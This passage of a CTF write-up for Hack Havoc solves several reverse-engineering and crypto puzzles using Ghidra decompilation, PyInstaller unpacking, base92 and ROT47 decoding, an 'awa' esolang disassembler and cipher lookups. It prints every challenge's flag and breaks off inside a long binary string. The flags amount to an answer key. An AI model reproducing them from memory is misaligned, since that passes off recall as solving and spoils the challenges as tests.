# Reverse Engineering
## <u>Rev is easy!</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Rev
* **Point Value / Difficulty:** 20
### Description
Welcome to the “Rev is Easy!” challenge at CyberMaterial! Think you’re clever enough to outsmart our file? Prove that “Rev” isn’t just short for “Reverse Engineering,” but also for “Really Easy Victory!”
### Solution
A simple `strings` on the binary and grep reveals the flag.


Flag:- `CM{ReV_i5_Easy}`

## <u>Go Crazy</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Rev
* **Point Value / Difficulty:** 30
### Description
In a small, dimly lit room, a determined hacker named killswxtch sits in front of an old, flickering computer screen. They find a book with a note that reads, "Check the sequence." Using this clue, killswxtch deciphers the password and enters it, unlocking a hidden door that reveals secret manuscripts.
### Solution
Putting the binary in a decompiler (I used `ghidra`), We get the following decompilation.


It is clearly seen that on entering the password, the secret is getting printed. So I just took the byte values starting from `local_28 to local_1a`, and converted back to ascii and got the flag.

```python
bytes.fromhex("434d7b354f5f4d7543685f37756e7d")
```
Output:- `b'CM{5O_MuCh_7un}'`

Flag :- `CM{5O_MuCh_7un}`


## <u>Who’s Really Dunked?</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Rev
* **Point Value / Difficulty:** 40
### Description
Cosmicgurl::92 says, "R47RoO7::47 is drunk!" 🍻 R47RoO7::47 responds, "JavaScript::00 is drunk!" 🤪 And then, out of nowhere, JavaScript stumbles in and says, "Yep, I'm actually drunk!" 🍹

So, let’s do a reverse cosmic dance to figure out who’s really had one too many. Spoiler alert: it looks like JavaScript is the real party animal! 🚀🥳
### Solution
I just simply put the encrypted text to cipher identifier which told that, it was `base92` as  indicated by `Cosmicgurl`. 
Output after base92 decryption:-
```
4@?DE 4CJAE@ l C6BF:C6WV4CJAE@VXj
4@?DE C625=:?6 l C6BF:C6WVC625=:?6VXj

^^ rC62E6 2? :?E6C7246 E@ C625 :?AFE 7C@> E96 FD6C
4@?DE C= l C625=:?6]4C62E6x?E6C7246WL
   :?AFEi AC@46DD]DE5:?[
   @FEAFEi AC@46DD]DE5@FE
NXj

^^ x?:E:2= 7=28 AC67:I
=6E 7=28!C67:I l Qr|LQj

^^ uF?4E:@? E@ 4964< FD6C :?AFED 2?5 G2=:52E6 E96 7=28
7F?4E:@? 4964<WX L
   C=]BF6DE:@?WVt?E6C 7:CDE G2=F6i V[ WG2=F6~?6X lm L
       C=]BF6DE:@?WVt?E6C D64@?5 G2=F6i V[ WG2=F6%H@X lm L
           C=]BF6DE:@?WVt?E6C E9:C5 G2=F6i V[ WG2=F6%9C66X lm L
               C=]4=@D6WXj

               ^^ x?:E:2=:K6 7=28 H:E9 E96 AC67:I
               =6E 7=28 l 7=28!C67:Ij

               ^^ pAA6?5 A2CED E@ E96 7=28 32D65 @? :?AFE G2=F6D
               :7 WG2=F6~?6 lll Q}6HDQX L
                   7=28 Zl Q}6HD0Qj
               N

               :7 WG2=F6%H@ lll Qp=6CEDQX L
                   7=28 Zl Qp=6CED0Qj
               N

               :7 WG2=F6%9C66 lll Qx?4:56?EQX L
                   7=28 Zl Qx?4:56?EQj
               N

               7=28 Zl QNQj

               ^^ r964< :7 E96 4@>AFE65 92D9 >2E496D E96 6IA64E65 92D9
               4@?DE 6IA64E65w2D9 l Qg_d5eddf_dbhfeb57a_52e23f5dheefe33b52c`2_e526fefdf`g7e4a3fdd2ag5Q
               :7 W92D9W7=28X lll 6IA64E65w2D9X L
                   4@?D@=6]=@8WQr@?8C2EF=2E:@?DP %96 7=28 :Di Q Z 7=28Xj
               N 6=D6 L
                   4@?D@=6]=@8WQx?4@CC64E 7=28] %CJ 282:?]QXj
               N
           NXj
       NXj
   NXj
N

^^ uF?4E:@? E@ 4@>AFE6 $wp\ade 92D9
7F?4E:@? 92D9W:?AFEX L
   C6EFC? 4CJAE@]4C62E6w2D9WVD92adeVX]FA52E6W:?AFEX]5:86DEWV96IVXj
N

^^ $E2CE E96 492==6?86
4964<WXj

```

Next from the description it was obvious that it is ROT-47. So again I put it in dcode and got the following js:-
```js
const crypto = require('crypto');
const readline = require('readline');

// Create an interface to read input from the user
const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
});

// Initial flag prefix
let flagPrefix = "CM{";

// Function to check user inputs and validate the flag
function check() {
  rl.question('Enter first value: ', (valueOne) => {
      rl.question('Enter second value: ', (valueTwo) => {
          rl.question('Enter third value: ', (valueThree) => {
              rl.close();

              // Initialize flag with the prefix
              let flag = flagPrefix;

              // Append parts to the flag based on input values
              if (valueOne === "News") {
                  flag += "News_";
              }

              if (valueTwo === "Alerts") {
                  flag += "Alerts_";
              }

              if (valueThree === "Incident") {
                  flag += "Incident";
              }

              flag += "}";

              // Check if the computed hash matches the expected hash
              const expectedHash = "805d65570539763df20da6ab7d596676bb3da41a06dae7675718f6c2b755a28d"
              if (hash(flag) === expectedHash) {
                  console.log("Congratulations! The flag is: " + flag);
              } else {
                  console.log("Incorrect flag. Try again.");
              }
          });
      });
  });
}

// Function to compute SHA-256 hash
function hash(input) {
  return crypto.createHash('sha256').update(input).digest('hex');
}

// Start the challenge
check();
```

On analyzing this code the flag is pretty obvious .

Flag:- `CM{News_Alerts_Incident}`


## <u>The Key to Nowhere</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Rev
* **Point Value / Difficulty:** 60
### Description
You’ve got your hands on a mysterious file called wkwkwkkw, and the word on the street is that only those with a sharp mind and a good sense of humor can unlock its secrets. Legend says it holds the key to something... static, perhaps? Who knows?

### Solution
At first I decompile the binary using ghidra. On checking the stripped `entry` and just going into the rabbit hole a bit, I notice `FUN_004032a0("Could not load PyInstaller\'s embedded PKG archive from the executable (%s)\n"`

The thing to be noted is `PyInstaller`. SO the binary is packed using `PyInstaller`. To unpack this a tool called [PyExtractor](https://github.com/extremecoders-re/pyinstxtractor) is available on github.

Just run the command with the binary:-
`.\pyinstxtractor-ng.exe .\wkwkwkkw`

And it unpacks the packed file into a separate folder.


Now inside the folder we have `3.pyc`. A `pyc` file. To read the actual code from a pyc file, there is another tool called [pycdc](https://github.com/zrax/pycdc). It is also available on github.

Build the tool and run the following command:-
`/mnt/d/bi0s/pycdc/pycdc 3.pyc`

This will show the original python code.

```python
# Source Generated with Decompyle++
# File: 3.pyc (Python 3.10)


def xor_encrypt(data, key):
    '''Encrypt or decrypt data using XOR with the given key.'''
    return None((lambda .0 = None: for i, c in .0:
chr(ord(c) ^ ord(key[i % len(key)])))(enumerate(data)))


def get_hidden_key():
    '''Retrieve the hidden key.'''
    return ''.join((lambda .0: for c in .0:
chr(c))((83, 84, 65, 84, 73, 67, 75, 69, 72)))


def get_hidden_flag():
    '''Retrieve the hidden flag.'''
    return ''.join((lambda .0: for c in .0:
chr(c))((82, 51, 86, 95, 68, 52, 84, 52, 95, 72, 51, 114, 79)))


def main():
    key = get_hidden_key()
    flag = get_hidden_flag()
    encrypted_flag = xor_encrypt(flag, key)
    print('Welcome to CyberMaterial, where only the brave dare to crack the code!')
    response = input('Do you think you can outsmart the system? (yes/no): ').strip().lower()
    if response == 'yes':
        user_input = input('Alright, savvy one! Enter the secret key: ')
        if user_input == key:
            decrypted_flag = xor_encrypt(encrypted_flag, key)
            print(f'''Congratulations! Here\'s your flag: CM{{{decrypted_flag}}}''')
            return None
        None('Oops! Incorrect key. Try again.')
        return None
    None('I see you’re a true codebreaker! No key needed. The flag is hidden, but you’re smart enough to find it. Good luck!')

if __name__ == '__main__':
    main()
    return None
```

Now we can see the `get_hidden_flag`. I just took the list, and converted and got the flag.

```python
''.join(chr(i)for i in [82, 51, 86, 95, 68, 52, 84, 52, 95, 72, 51, 114, 79])
```

Output:- "R3V_D4T4_H3rO"

Flag:- `CM{R3V_D4T4_H3rO}`


## <u>Awwwwwwwwwwwwwww!!</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Rev
* **Point Value / Difficulty:** 80
### Description
So Much Awwww & Awaaaaaaaaaaa by  
[Jelly Hoshiumi](https://x.com/jellyhoshiumi)

Flag: Enclosed string with CM{....}
### Solution

This exact same challenge came in `vsCTF24`. I solved it that time in that ctf. I went to the folder to find my script but it was not there. Ig I did that in IDLE. So I simply went to the github repo where the writeup was already there because why not? Use the resources at hand.
Writeup Link:- https://github.com/D13David/ctf-writeups/blob/main/vsctf24/rev/README.md

I simply took the code, and changed the file name and value as necessary. The file was exactly the same as the vsCTF one. I just blindly ran it, but later realized the output was different. So changed it and ran the script and got the flag.

```python
COMMAND_BITS = 5

def parseBlock(block):
    result = ""
    while len(block) != 0:
        if block.startswith("awa"):
            result += "0"
            block = block[3:]
        elif block.startswith("wa"):
            result += "1"
            block = block[2:]
    return result

def awaize(bits, size):
    tmp = []
    while bits != 0:
        tmp.append(" awa" if bits & 1 == 0 else "wa")
        bits >>= 1

    for i in range(len(tmp), size):
        tmp.append(" awa")

    return "".join(tmp[::-1]).strip()

def parseBits(index, data, length):
    return (index+length, int(data[index:index+length],2))

commands = {
                0x00: ("nop", 0),
                0x01: ("prn", 0),
                0x02: ("pr1", 0),
                0x03: ("red", 0),
                0x04: ("r3d", 0),
                0x05: ("blo", 8),
                0x06: ("sbm", 5),
                0x07: ("pop", 0),
                0x08: ("dpl", 0),
                0x09: ("srn", 5),
                0x0A: ("mrg", 0),
                0x0B: ("4dd", 0),
                0x0C: ("sub", 0),
                0x0D: ("mul", 0),
                0x0E: ("div", 0),
                0x0F: ("cnt", 0),
                0x10: ("lbl", 5),
                0x11: ("jmp", 5),
                0x12: ("eql", 0),
                0x13: ("lss", 0),
                0x14: ("gr8", 0),
                0x1F: ("trm", 0),
           }

def handleCommand(index, data, cmd, awaized):
    try:
        cmd_info = commands[cmd]
        if cmd_info[1] != 0:
            index, param = parseBits(index, data, cmd_info[1])
            disasm = f"{cmd_info[0]} {param}"
        else:
            disasm = cmd_info[0]

        if awaized:
            param = f" | {awaize(param, cmd_info[1])}" if cmd_info[1] != 0 else ""
            print(f"{(awaize(cmd, COMMAND_BITS)+param).ljust(42)} {disasm}")
        else:
            print(disasm)
    except:
        print(f"unknown command {cmd}")

    return index

if __name__ == "__main__":
    data = open("awwwww.txt", "r").read().split(" ")

    bits = ""
    for block in data[1:]:
        bits += parseBlock(block)

    index = 0
    while index < len(bits):
        index, cmd = parseBits(index, bits, COMMAND_BITS)
        index = handleCommand(index, bits, cmd, True)
```

Output:- 
```
awa awa awawawa                            red
awa awawawawa                              pop
awa awawawa awa | awa awa awawa awa        sbm 2
awa awawawa awa | awa awa awawawa          sbm 3
awa awawawa awa | awa awawa awa awa        sbm 4
awa awawawa awa | awa awa awa awawa        sbm 1
awa awawawa awa | awa awawawa awa          sbm 6
awa awawawa awa | awa awawa awawa          sbm 5
awa awawawa awa | awa awa awawawa          sbm 3
awa awawawa awa | awawa awawa awa          sbm 10
awa awawawa awa | wa awawa awa awa         sbm 20
awa awawawa awa | wa awawawa awa           sbm 22
awa awawawa awa | wawa awa awawa           sbm 25
awa awawawa awa | awa awa awawawa          sbm 3
awa awawawa awa | awa awa awa awa awa      sbm 0
awa awawawa awa | awa awa awa awa awa      sbm 0
awa awawawa awa | awa awa awawa awa        sbm 2
awa awawawa awa | awa awa awawawa          sbm 3
awa awawawa awa | awa awawa awa awa        sbm 4
awa awawawa awa | awa awa awa awawa        sbm 1
awa awawawa awa | awa awawawa awa          sbm 6
awa awawawa awa | awa awawa awawa          sbm 5
awa awawawa awa | awa awa awawawa          sbm 3
awa awawawa awa | awawa awawa awa          sbm 10
awa awawawa awa | wa awawa awa awa         sbm 20
awa awawawa awa | wa awawawa awa           sbm 22
awa awawawa awa | wawa awa awawa           sbm 25
awa awawawa awa | awa awa awawawa          sbm 3
awa awawawa awa | awa awa awa awa awa      sbm 0
awa awawawa awa | awa awa awa awa awa      sbm 0
awa awawawa awa | awa awa awa awa awa      sbm 0
awa awawawa awa | wa awa awa awa awa       sbm 16
awa awawawa awa | wawa awawa awa           sbm 26
awa awawawa awa | wawawawawa               sbm 31
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
awa awa awa awawa                          prn
```

Next had to write change the output as the given image.

```python
data = list("owoosHiai1w1aia_awJ3ally!0awwa_o")
subm = [2, 3, 4, 1, 6, 5, 3, 10, 20, 22, 25, 3, 0, 0, 2, 3, 4, 1, 6, 5, 3, 10, 20, 22, 25, 3, 0, 0, 0, 16, 26, 31]

for i in subm[::-1]:
    if i != 0:
        data = [data[i]] + data[0:i] + data[i+1:]
    else:
        data.insert(0, data[-1])
        data = data[:-1]

print("".join(data))
```

Output:- `awawawawaawa_0oooosHii11i_J3lly!`

Flag:- `CM{awawawawaawa_0oooosHii11i_J3lly!}`


# Crypto

## <u>Green Flags 🟢</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Crypto
* **Point Value / Difficulty:** 20
### Description
Flag Frenzy In a sea of encrypted flags, your mission is to unravel the chaos and reveal the hidden truth.

Flag : CM{abcd_abcdefgh}
### Solution
The image we were given is clearly encoding of letters using country flags. I wasn't sure what tho. On searching google with very little effort I found a picture.


After this just compare.

Flag:- `CM{nato_signals}`


# <u>I can't see it</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Crypto
* **Point Value / Difficulty:** 30
## Description
In the land of secrets, where the ordinary becomes extraordinary, there’s a riddle that loves to play hide-and-seek. It's hiding in plain sight, yet elusive to the eye. Venture into the realm where invisible ink holds the clues, and remember
## Solution
Just put the braille in dcode an we have the flag.



Flag:- `CM{TH15_BR41LL3_1S_43AL}`


## Digital Black Hole

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Crypto
* **Point Value / Difficulty:** 40
### Description
Imagine a digital black hole where secrets vanish into thin air. We've cast a cryptic message into this void, one that only the most adept machines can decipher
### Solution
The cRYPTO.png didn't open. So I decided to `cat` it and got many binary values. Decided to convert them into characters and the same process continued for 2 times before revealing ASCII.

Here is the code:-
```python
a="00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00